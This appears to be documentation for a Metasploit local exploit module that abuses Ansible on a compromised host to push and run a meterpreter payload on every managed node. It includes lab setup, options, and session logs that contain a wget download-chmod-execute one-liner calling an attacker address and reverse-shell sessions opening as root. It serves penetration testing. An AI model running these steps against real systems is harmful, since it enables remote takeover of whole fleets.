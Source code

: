 ## Vulnerable Application

This exploit module creates an ansible module for deployment to nodes in the network.
It creates a new yaml playbook which copys our payload, chmods it, then runs it on all
targets which have been selected (default all).

### Docker-compose Install

Use the ansible lab files located [here](https://github.com/abdennour/ansible-lab-environment-in-containers).

Before bringing up the `docker-compose` instance, you'll want to generate an SSH key: `ssh-keygen -t rsa -N "" -f secrets/id_rsa`

Of note, only 1 of the 3 alpine hosts will be successful due to the port conflict. This is fine though.

## Verification Steps

1. Install the application
1. Start msfconsole
1. Get an initial shell on the box
1. Do: `use exploit/linux/local/ansible_node_deployer`
1. Do: `set session [#]`
1. Do: `run`
1. You should get sessions on all the targeted hosts

## Options

### ANSIBLEPLAYBOOK

Location of ansible executable if not in a standard location. This is added to a list of default locations
which includes `/usr/local/bin/ansible`. Defaults to ``

## WritableDir

A directory on the compromised host we can write our payload to. Defaults to `/tmp`

## TargetWritableDir

A directory on the target hosts we can write our payload to. Defaults to `/tmp`

## CALCULATE

This will calculate how many hosts may be exploitable by using Ansible's ping command.

### HOSTS

Which Ansible host (groups) to target. Defaults to `all`

### ListenerTimeout

How many seconds to wait after executing the payload for hosts to call back. Defaults to `60`

## Scenarios

### Docker compose as mentioned above

Get initial access to the system

```
resource (ansible_deploy.rb)> use exploit/multi/script/web_delivery
[*] Using configured payload python/meterpreter/reverse_tcp
resource (ansible_deploy.rb)> set lhost 1.1.1.1
lhost => 1.1.1.1
resource (ansible_deploy.rb)> set srvport 8181
srvport => 8181
resource (ansible_deploy.rb)> set target 7
target => 7
resource (ansible_deploy.rb)> set payload payload/linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
resource (ansible_deploy.rb)> run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] Using URL: http://1.1.1.1:8181/2BQIMgeywC6gGt9
[*] Server started.
[*] Run the following command on the target machine:
wget -qO OHZQobFE --no-check-certificate http://1.1.1.1:8181/2BQIMgeywC6gGt9; chmod +x OHZQobFE; ./OHZQobFE& disown
[*] 172.22.0.7       web_delivery - Delivering Payload (250 bytes)
[*] Sending stage (3045380 bytes) to 172.22.0.7
[*] Meterpreter session 1 opened (1.1.1.1:4444 -> 172.22.0.7:49612) at 2023-12-15 20:12:27 -0500
```

```
resource (ansible_deploy.rb)> use exploit/linux/local/ansible_node_deployer
[*] No payload configured, defaulting to linux/x64/meterpreter/reverse_tcp
resource (ansible_deploy.rb)> set session 1
session => 1
resource (ansible_deploy.rb)> set verbose true
verbose => true
resource (ansible_deploy.rb)> set lhost 1.1.1.1
lhost => 1.1.1.1
resource (ansible_deploy.rb)> set lport 9999
lport => 9999
[*] Starting persistent handler(s)...
[msf](Jobs:1 Agents:0) exploit(linux/local/ansible_node_deployer) > 
[msf](Jobs:1 Agents:1) exploit(linux/local/ansible_node_deployer) > set TargetWritableDir /etc/
TargetWritableDir => /etc/
[msf](Jobs:1 Agents:1) exploit(linux/local/ansible_node_deployer) > exploit
[*] Exploit running as background job 1.
[*] Exploit completed, but no session was created.
[msf](Jobs:2 Agents:1) exploit(linux/local/ansible_node_deployer) > 
[*] Started reverse TCP handler on 1.1.1.1:9999 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] /tmp is writable, and ansible executable found
[+] The target is vulnerable.
[+] Stored pings to: /root/.msf4/loot/20231215201340_default_172.22.0.7_ansible.ping_422232.txt
[+] Ansible Pings
=============

 Host                       Status   Ping  Changed
 ----                       ------   ----  -------
 alpine-example-com         SUCCESS  pong  false
 alpinesystemd-example-com  SUCCESS  pong  false
 centos7-example-com        SUCCESS  pong  false
 rhel8-example-com          SUCCESS  pong  false

[+] 4 ansible hosts were pingable, and will attempt to execute payload. Waiting 10 seconds incase this isn't optimal.
[*] Creating yaml job to execute
[*] Writing payload
[*] Writing '/tmp/O514h2N' (250 bytes) ...
[*] Executing ansible job
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 172.22.0.6
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 172.22.0.4
[+] Stored run logs to: /root/.msf4/loot/20231215201411_default_172.22.0.7_ansible.playbook_967421.txt
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 172.22.0.5
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 172.22.0.2
[*] Meterpreter session 2 opened (1.1.1.1:9999 -> 172.22.0.6:60850) at 2023-12-15 20:14:36 -0500
[*] Meterpreter session 5 opened (1.1.1.1:9999 -> 172.22.0.2:34980) at 2023-12-15 20:14:36 -0500
[*] Meterpreter session 3 opened (1.1.1.1:9999 -> 172.22.0.4:51082) at 2023-12-15 20:14:46 -0500
[*] Meterpreter session 4 opened (1.1.1.1:9999 -> 172.22.0.5:41770) at 2023-12-15 20:14:56 -0500

[msf](Jobs:2 Agents:5) exploit(linux/local/ansible_node_deployer) > sessions -l

Active sessions
===============

  Id  Name  Type                   Information        Connection
  --  ----  ----                   -----------        ----------
  1         meterpreter x64/linux  root @ 172.22.0.7  1.1.1.1:4444 -> 172.22.0.7:49612 (172.22.0.7)
  2         meterpreter x64/linux  root @ 172.22.0.6  1.1.1.1:9999 -> 172.22.0.6:60850 (172.22.0.6)
  3         meterpreter x64/linux  root @ 172.22.0.4  1.1.1.1:9999 -> 172.22.0.4:51082 (172.22.0.4)
  4         meterpreter x64/linux  root @ 172.22.0.5  1.1.1.1:9999 -> 172.22.0.5:41770 (172.22.0.5)
  5         meterpreter x64/linux  root @ 172.22.0.2  1.1.1.1:9999 -> 172.22.0.2:34980 (172.22.0.7)
```

```
└─$ cat ~/.msf4/loot/20231215201411_default_172.22.0.7_ansible.playbook_967421.txt

PLAY [Deliver Meterpreter] *****************************************************

TASK [Gathering Facts] *********************************************************
[DEPRECATION WARNING]: Distribution redhat 8.2 on host rhel8-example-com should
 use /usr/libexec/platform-python, but is using /usr/bin/python for backward 
compatibility with prior Ansible releases. A future Ansible release will 
default to using the discovered platform python for this host. See https://docs
.ansible.com/ansible/2.9/reference_appendices/interpreter_discovery.html for 
more information. This feature will be removed in version 2.12. Deprecation 
warnings can be disabled by setting deprecation_warnings=False in ansible.cfg.
ok: [rhel8-example-com]
ok: [centos7-example-com]
[WARNING]: Platform linux on host alpine-example-com is using the discovered
Python interpreter at /usr/bin/python, but future installation of another
Python interpreter could change this. See https://docs.ansible.com/ansible/2.9/
reference_appendices/interpreter_discovery.html for more information.
ok: [alpine-example-com]
[WARNING]: Platform linux on host alpinesystemd-example-com is using the
discovered Python interpreter at /usr/bin/python, but future installation of
another Python interpreter could change this. See https://docs.ansible.com/ansi
ble/2.9/reference_appendices/interpreter_discovery.html for more information.
ok: [alpinesystemd-example-com]

TASK [ansible.builtin.copy] ****************************************************
changed: [alpine-example-com]
changed: [centos7-example-com]
changed: [rhel8-example-com]
changed: [alpinesystemd-example-com]

TASK [ansible.builtin.file] ****************************************************
changed: [alpine-example-com]
changed: [rhel8-example-com]
changed: [centos7-example-com]
changed: [alpinesystemd-example-com]

TASK [command] ***************************************************************** 
```
